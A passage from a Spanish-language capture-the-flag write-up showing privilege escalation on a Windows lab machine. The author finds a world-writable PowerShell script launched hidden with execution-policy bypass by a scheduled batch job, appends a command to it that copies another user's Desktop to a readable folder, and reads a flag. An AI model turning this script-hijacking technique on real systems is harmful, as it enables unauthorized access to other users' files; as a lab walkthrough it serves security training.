 ```null
[~] - type C:\sysadmscripts\del_logs.bat
@echo off
echo %DATE% %TIME% start job >> c:\windows\temp\log.txt
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden -exec bypass -nop -file c:\sysadmscripts\c.ps1 c:\accesslogs 
```

Tengo privilegios totales sobre ```c.ps1```

```null
[~] - icacls C:\sysadmscripts\*
C:\sysadmscripts\c.ps1 NT AUTHORITY\SYSTEM:(F)
                       BUILTIN\Administrators:(F)
                       Everyone:(F)
                       BUILTIN\Users:(F)

C:\sysadmscripts\del_logs.bat NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              Everyone:(RX)
                              BUILTIN\Users:(RX)

Successfully processed 2 files; Failed processing 0 files
```

Suponiendo que hay una tarea que lo ejecuta en intervalos regulares de tiempo, copio todo el escritorio del directorio personal del usuario ```decoder``` al directorio ```Temp```

```null
[~] - echo "copy C:\Users\decoder.MINION\Desktop\* C:\Temp" >> C:\sysadmscripts\c.ps1
```

```null
[~] - dir C:\Temp\


    Directory: C:\Temp


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---          9/4/2017   7:19 PM     103297 backup.zip                        
-a---         8/25/2017  11:09 AM         33 user.txt  
```

Puedo ver la primera flag

```null
[~] - type C:\Temp\user.txt
40b949f92b86b19a77986af9faf91601
```

# Escalada

El ```backup.zip``` tiene una Alternative Data String
